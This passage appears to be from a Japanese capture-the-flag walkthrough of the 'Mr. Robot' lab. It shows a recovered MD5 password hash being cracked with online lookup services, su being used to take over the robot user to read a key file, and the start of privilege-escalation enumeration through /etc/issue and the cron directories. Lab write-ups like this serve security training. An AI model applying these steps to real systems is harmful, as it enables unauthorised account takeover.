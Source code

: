 password.raw-md5 はハッシュであってパスワードではないらしい。分かりにくい。  
パスワードの MD5 ハッシュからユーザー変更することは可能か？

オンラインの MD5 解読で、4 つ目のサイトでヒットした。

```text
×　https://10015.io/tools/md5-encrypt-decrypt
×　https://md5decrypt.net/en/
×　https://www.md5online.org/md5-decrypt.html
〇　https://md5hashing.net/hash/md5/
```

abcdefghijklmnopqrstuvwxyz

```shell
daemon@linux:/opt/bitnami/apps/wordpress/htdocs$ su - robot
su - robot
Password: abcdefghijklmnopqrstuvwxyz

$ whoami
robot

$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

キー（2/3）クリア！

## ステージ３（特権昇格）

### /etc/issue

```shell
cat /etc/issue
   _____          __________      ___.           __
  /     \\_______  \\______   \\ ____\\_ |__   _____/  |_
 /  \\ /  \\_  __ \\  |       _//  _ \\| __ \\ /  _ \\   __\\
/    Y    \\  | \\/  |    |   (  <_> ) \\_\\ (  <_> )  |
\\____|__  /__|     |____|_  /\\____/|___  /\\____/|__|
        \\/                \\/           \\/
```

特になし

### cron チェック

```shell
$ ls -al /etc/cron*
-rw-r--r-- 1 root root  787 Dec  2  2024 /etc/crontab

/etc/cron.d:
total 12
drwxr-xr-x  2 root root 4096 Jun 24  2015 .
drwxr-xr-x 77 root root 4096 Dec  2  2024 ..
-rw-r--r--  1 root root  102 Feb  9  2013 .placeholder

/etc/cron.daily:
total 44
drwxr-xr-x  2 root root  4096 Jun 24  2015 .
drwxr-xr-x 77 root root  4096 Dec  2  2024 ..
-rwxr-xr-x  1 root root 15481 Apr 10  2014 apt
-rwxr-xr-x  1 root root   256 Mar  7  2014 dpkg
-rwxr-xr-x  1 root root   372 Jan 22  2014 logrotate
-rwxr-xr-x  1 root root   249 Feb 17  2014 passwd
-rw-r--r--  1 root root   102 Feb  9  2013 .placeholder
-rwxr-xr-x  1 root root   328 Jul 18  2014 upstart
```